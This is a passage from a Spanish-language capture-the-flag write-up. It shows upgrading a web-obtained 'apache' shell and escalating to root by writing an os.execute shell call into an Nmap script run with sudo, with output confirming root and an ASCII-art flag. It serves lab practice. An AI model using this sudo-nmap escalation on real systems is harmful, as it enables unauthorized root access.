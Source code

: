 Y le damos en la pagina al boton `You Must Provide At Least One Target` que es en azul, una vez hecho eso nos redirigira a otro sitio donde nos muestra la informacion y ya tendremos una shell como el usuario `apache`...

La sanitizamos un poco...

```shell
script /dev/null -c bash
```

```shell
export TERM=xterm
export SHELL=/bin/bash
```

Una vez estando dentro hacemos lo siguiente...

```shell
echo 'os.execute("/bin/sh")' > /tmp/nmap.script
```

```shell
sudo nmap --script=/tmp/nmap.script
```

Info:

```
Starting Nmap 6.40 ( http://nmap.org ) at 2024-06-18 10:56 EDT
NSE: Warning: Loading '/tmp/nmap.script' -- the recommended file extension is '.nse'.
sh-4.2# whoami
root
```

Y con esto ya seriamos `root`, por lo que leeremos la flag...

> flag.txt (flag\_final)

```
flag 1/1
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█
░░█░░▌░█░░█░░█░░░█░░█░░█
░░█░░▀▀░░██░░█░░░█░░█░░█
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█

congratulations!
```
